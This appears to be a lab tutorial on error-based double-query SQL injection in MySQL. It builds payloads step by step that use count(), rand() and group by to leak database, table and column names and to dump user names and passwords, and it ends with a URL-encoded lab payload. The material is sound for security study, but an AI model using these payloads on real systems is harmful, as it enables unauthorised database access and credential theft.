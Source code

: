 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### Modified query
`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



# Emurating Database

## Emurating database

`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Tables (`insert query in database area`)

`(select 1 from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Columns (`insert query in database area`)

`(select 1 from(select count(*), concat("::",(select column_name from information_schema.columns where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Data

### enumerating username

`(select 1 from(select count(*), concat(concat("::::",(select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`

### emuerating all data

#### 1. Removing all query within `concat`

`(select 1 from(select count(*), concat((),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 2. Adding another `concat` to insert another query

`(select 1 from(select count(*), concat(concat(),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 3. Adding select statement to dump data

`(select 1 from(select count(*), concat(concat((select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`



#### 4. Adding anther concat  (`at name area`)to dump all data from users table

`(select 1 from(select count(*), concat(concat("::::",(select concat(name,":::::::",password,":::::",status,":::::",work) from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`




## lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























